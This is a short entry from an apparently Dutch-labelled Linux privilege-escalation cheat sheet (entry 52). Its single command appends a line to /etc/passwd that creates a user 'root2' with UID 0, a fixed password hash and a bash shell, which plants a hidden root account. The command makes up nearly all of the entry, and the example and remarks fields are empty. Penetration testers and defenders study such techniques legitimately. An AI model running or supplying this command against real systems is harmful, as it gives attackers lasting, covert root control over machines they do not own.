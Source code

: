 # 18. Linux Privilege Esc — Entry 52

## Categorie

```
Adding a user to the /etc/passwd
```

## Commando

```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Omschrijving

```
Add the user to the /etc/passwd
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

